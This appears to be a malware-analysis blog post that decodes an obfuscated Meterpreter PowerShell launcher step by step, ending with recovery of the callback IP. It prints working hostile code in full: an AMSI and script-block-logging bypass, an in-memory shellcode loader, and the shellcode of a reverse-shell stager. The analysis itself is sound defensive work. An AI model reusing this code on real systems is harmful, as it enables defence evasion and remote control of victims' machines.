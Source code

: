 ```yaml
---
tags: PowerShell-Analysis
---
```

## Meterpreter Shellcode Obfuscated in PowerShell
Taking apart a Meterpreter Payload encoded within an obfuscated PowerShell script.

Below is an example of a command line which is often associated with exploitation attempts via Metasploit

```powershell
C:\\Windows\\SysWOW64\\cmd.exe /c powershell.exe -nop -w hidden -noni -c <!#-- if([IntPtr]::Size -eq 4){$b=$env:windir+'\\sysnative\\WindowsPowerShell\\v1.0\\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c
$x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new();
$gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u''));
$plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a''));
if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null);
If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows\\PowerShell\\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}
{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object
System.IO.MemoryStream(,
[System.Convert]::FromBase64String(((''''H4sIA{1}wxYWUA/7VWbW/aShP9X''+''qn/waqQsHUJmJf2kkiVnjX{1}QIOJiQMkUFRt7MVsWXuJvQ5Bvf3vnfV{0}QtSkzXOvasnCXs/M''+''zp45c4ZV{1}rqC8lCh723l29s3Sn7ZOMKBopbcGW/fV5QS3WqPH0t+m42Uj4q6QNttlweYhsuTk04SRSQU2Xu1RwSKYx{0}cM{1}piVVP+UWZr{1}pGj85uvxBXKN6X0pdpj/Aaz3Gzfwe6aK{1}co9OS3IXexTKzqbBkVavnz57K2OKovq6e3CWaxWnb2sSBB1WOsrCnfNbnh5X5{0}1{0}JF3YjHfCWqMxo2G9VJGOMVGUG0O2IRseZeXIbDPB4nIiKJwuxUMkxmpJbh0Y64izwvInFcrig{0}ucFiufyfush3v0hCQ''+''QNSHYSCRHzrkOiOuiSu9nHoMXJBVkvwckR{1}Q3+paWB2xzd{1}{0}YUJYxXl/wmjjsiuwO61Tuqh{1}1jZItIqUNNnzmlx{0}2{1}k8yw/k2jGAw2ujAuA33cJ4QN9Alz/0n2GQI8{0}xbVIvxDIWbV5TFPvj4peUSzYHQse7eG1dBklRFs+IK6UghY6q7w2Wr1wBce7XgIriymn3v{0}R/wkBSqvb3vS9tHqZz12yoiHp7kMcU{0}eg7BO{1}i7KQFYNXSd3''+''CbAQZquX8A/G6hB{1}fCwm0ZMdPbqcBFQ++RkKZRy{0}kQmljyAqqrj1NJqudWh6{1}FgkAvuwd6FpaQaOQwjpvjn2xu3wHo3KH4TiuKHYCnepWFIdgRryKgsKY5p9QInj6KFsgT9dKmKAujkURbnmoDyme+b4dHsYiSlyo{0}GBw6WyJSzGTkFSUPvWIsXeoX+x/sMMBIB3MGHQQR{0}qDgsCKBMIRki8RpJpyQ6s6RAyC{0}SMB2KTSYT{0}sg1DkfZISDPv{1}k83/bKZFP2Tkl9gUoBzkCQV3GBcVZUojA''+''UokcQaK/assfpag{0}J1ORPICqUWj{0}Yy9kI1QCofjxkZSNYcpBSUSAIgZ8cDAMfnQygRHfVc7pzaC67rbdyiZbmh9sIPbgntCmwNurdq20HlguZ3Y7pltRHf+zm2PkOt98sixA3bjaUt0bNQfU91orV1Dv0yf/Wta933kjcZrl+n26ea+1op1uuvPZKwshttq9a''+''901Gy2zpv6BgCUPhvwCejufgjPoKznQ2MQG/qAnX7qXNzMGuZ8xvq1lrlezXjsf{0}ju1mq1Yw93rT1CBvea1v6qfs{1}v+25gt{1}JeO+60NugUoU54OjUNfnZtRMiuTbG/5bszH6GZ30HorzUl8/H{1}NMZj00CT3tfb7nHNrx3PrvDam{1}0bd{0}69uljDu7nrj62a3hp45J63hzM6vZOxjFvDnF9hNJzvzVqtfh038MbgyABgzfkt6q2vt6bNwP9y0uBoykaPtuN+9''+''8yd1/+OrY/voJK{0}CQ1Fs7GUjdmUovf2TYm5x+2Dcr4k6haO4jVm''+''UGZQ66{0}nTB6ZuQDbH{1}KDCKpyjm9IFBIGow+GY8FTxBh3pfxnSg2zJ5sIckBN4BHSeu5JgyGfG4{0}4F3OhWDo5mUOWwP2UldUhCX2xruj3TV0HQdfv9VbK8tcfrsO3e5g6Mhr4Q2AJz0N8lsaHkHSlq{0}8dnv''+''8ZMhj+AhToF6C9hB/svQHBAAn{0}mliiaHDODjHMj/bAiScQAnZ1OP5Cjv6U{0}RDiiNwqJVBSoh3O2VJyc37zRwmUq9{1}afrzf{1}uhx7RdfX0UqvZIh9NPy04UDMf9z{1}MwwFWDogKoyko37F5DIu+agz{0}I+0BKr''+''/J{0}/hM8TcTSCf1aptv8AyS{1}BNoI{0}AAA='')-f''L'',''E'')))),
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]
```

Obfuscation is used in the form of concatenating the base64 encoded string, and gzip compression.
We can identify the value of the arrays after a given sequence by looking for the '-f' argument.

"-f''L'',''E''"

{0} = L

{1} = E

Then it's a case of getting the Base64 encoded string, removing the concatenations and replacing the array values.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b813cf1a-4d3a-4b1d-86ef-17d99456d3b5)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d8739fc4-2063-4328-a35a-b8d931da62ae)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5108a2ac-dbb7-4ff2-a75c-c4623fc25fc8)




Next, we'll add a From Base64 and Gunzip operator to reveal the following code:

```powershell
function i5P {
        Param ($cWo8x, $ip)
        $g8lN = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $g8lN.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($g8lN.GetMethod('GetModuleHandle')).Invoke($null, @($cWo8x)))), $ip))
}

function ma1_D {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $m4AK,
                [Parameter(Position = 1)] [Type] $vGu = [Void]
        )

        $fqGV5 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $fqGV5.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $m4AK).SetImplementationFlags('Runtime, Managed')
        $fqGV5.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $vGu, $m4AK).SetImplementationFlags('Runtime, Managed')

        return $fqGV5.CreateType()
}

[Byte[]]$nLQ2k = [System.Convert]::FromBase64String("/OiPAAAAYDHSieVki1Iwi1IMi1IUi3IoMf8Pt0omMcCsPGF8Aiwgwc8NAcdJde9Si1IQV4tCPAHQi0B4hcB0TAHQi0gYi1ggAdNQhcl0PEkx/4s0iwHWMcCswc8NAcc44HX0A334O30kdeBYi1gkAdNmiwxLi1gcAdOLBIsB0IlEJCRbW2FZWlH/4FhfWosS6YD///9daDMyAABod3MyX1RoTHcmB4no/9C4kAEAACnEVFBoKYBrAP/VagpowKgAAWgCAA+hieZQUFBQQFBAUGjqD9/g/9WXahBWV2iZpXRh/9WFwHQM/04Idexo8LWiVv/VagBqBFZXaALZyF//1Ys2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1QHDKcZ17sM=")
[Uint32]$fal3 = 0
$lc98 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualAlloc), (ma1_D @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $nLQ2k.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($nLQ2k, 0, $lc98, $nLQ2k.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualProtect), (ma1_D @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($lc98, [Uint32]$nLQ2k.Length, 0x10, [Ref]$fal3)) -eq $true) {
        $ubOb = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll CreateThread), (ma1_D @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lc98,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll WaitForSingleObject), (ma1_D @([IntPtr], [Int32]))).Invoke($ubOb,0xffffffff) | Out-Null
}
```

This articale from SANS probably does a better job of explaining the grittier details of this script: https://isc.sans.edu/diary/Fileless+Malicious+PowerShell+Sample/23081

But what we are interested in is the Base64 string.
We'll throw it into CyberChef and add a From Base64 and To Hex operator to reveal the shellcode

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/80ecde0b-f1b1-4185-a322-9f616a2fe4e7)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7c49af16-e21f-4871-817b-017094a1c3ab)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a544358b-3b91-426a-b8fb-d49f52f2c702)




```
fc e8 8f 00 00 00 60 31 d2 89 e5 64 8b 52 30 8b 52 0c 8b 52 14 8b 72 28 31 ff 0f b7 4a 26 31 c0 ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 49 75 ef 52 8b 52 10 57 8b 42 3c 01 d0 8b 40 78 85 c0 74 4c 01 d0 8b 48 18 8b 58 20 01 d3 50 85 c9 74 3c 49 31 ff 8b 34 8b 01 d6 31 c0 ac c1 cf 0d 01 c7 38 e0 75 f4 03 7d f8 3b 7d 24 75 e0 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 58 5f 5a 8b 12 e9 80 ff ff ff 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 89 e8 ff d0 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 6a 0a 68 c0 a8 00 01 68 02 00 0f a1 89 e6 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 6a 00 6a 04 56 57 68 02 d9 c8 5f ff d5 8b 36 6a 40 68 00 10 00 00 56 6a 00 68 58 a4 53 e5 ff d5 93 53 6a 00 56 53 57 68 02 d9 c8 5f ff d5 01 c3 29 c6 75 ee c3
```

Then with this shellcode, we can use a x86 Dissassembler to reveal the instructions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8408cee5-eb25-4b97-9c69-e4d3a2662760)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/00b20d83-8eba-4fba-b1de-2773dd0d4b13)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f808fc0b-ad87-486e-a540-8a7bdcd0758d)




To find the IP which the shell will call back to, we need to look for the PUSH instructions above the MOV ESI,ESP instruction, which is above multiple PUSH RAX insutrctions

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5a5efcb0-f9c4-4bde-a647-ccdc421dc1b4)

By taking the Hex contents of the first PUSH instruction, after 68 (Which is just the instruction to PUSH), we get C0A80001, converting this From Hex, To Decimal, we get our source IP: 192.168.0.1

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b72c9cec-eb6f-40bf-9f31-56d0b864d465)









<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-48M02RY99Q"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-48M02RY99Q');
</script>


